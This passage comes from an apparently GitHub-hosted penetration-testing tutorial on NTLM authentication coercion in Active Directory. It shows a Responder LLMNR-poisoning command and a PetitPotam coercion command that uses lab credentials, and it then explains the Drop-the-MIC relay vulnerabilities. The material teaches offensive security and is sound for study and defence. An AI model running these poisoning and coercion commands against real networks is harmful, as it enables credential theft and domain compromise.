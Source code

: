 Since the WebClient connection string has to be a hostname, whenever a device cannot associate the passed hostname with a valid IP address and Link Local Multicast Name Resolution (LLMNR) is enabled, we can poison the multicast request and force the target device to successfully authenticate to us with HTTP authentication, without ever having to add a DNS entry. While this is a very round about way of coercion, I'd still consider it coercion because we are still initiating that first request from the target device, even if we have to poison the IP resolution.

We can utilize a tool called `Responder` to poison these multicast requests, with the command:

```
responder -I eth0 -v
```

`-I` specifies the interface name, and `-v` is for verbose, showing all authentication in stdout.

![image](https://github.com/user-attachments/assets/d6e5a9e6-2c10-4d26-91e0-b85d003a9952)

Now we utilize the same `PetitPotam` coercion from the previous section, instead this time using an invalid non-existing hostname for the WebClient connection string, for example `anything@80/test`, so the device sends a multicast request for us to poison, requesting `anything.local`.

```
python3 /opt/PetitPotam.py -u jdoe -p 'P@ssw0rd' -d lab.lan anything@80/test 192.168.1.3
```

![image](https://github.com/user-attachments/assets/cab160dc-c635-4ab0-991a-87a2299fb566)

And as you can see we've received valid HTTP NTLM authentication!

In the next section, we'll go over the method for actual relay of authentication, and the ability for potential modification of the NTLM request to assist in network compromise as part of an LDAP relay attack.

## Transport

While these modification NTLM attacks are significantly less likely to be exploited for a number of reasons, if successfully preformed, the results could be devastating. There's a number of transport-based NTLM modification attacks, two of which deal with something called a MIC, or Message Integrity Check. It's a field located in a signed NTLM authentication request, preventing tampering through Machine In The Middle (MITM) and relay attacks.

### Explanation - Edge Cases Of Significant Impact

Quite a few years ago, Crowdstrike found a collection of NTLM transport vulnerabilities that still threaten Active Directory networks today. Their security advisory on them can be found [here](https://www.crowdstrike.com/blog/active-directory-ntlm-attack-security-advisory/).

Windows devices vulnerable to CVE-2019-1040, allow the MIC field to simply be dropped. If an attacker is able to drop the MIC, there's nothing preventing them from relaying SMB authentication to LDAP(S), resulting in successful impersonation of the coerced target without the added annoyance of having to coerce HTTP authentication through WebClient.

![gif](https://github.com/user-attachments/assets/75e877f0-dd47-49e0-ba4e-7d038134281b)

There also exists a second iteration of the vulnerability, referred to as "Drop the MIC 2", CVE 2019-1166. Devices vulnerable to this kind of attack don't verify the existence of the MIC in a request that has a `msvAvFlag` field set to zero, allowing us to trick the server into believing that the request doesn't include a MIC. This attack also allows us to bypass the requirement of having to coerce HTTP authentication.
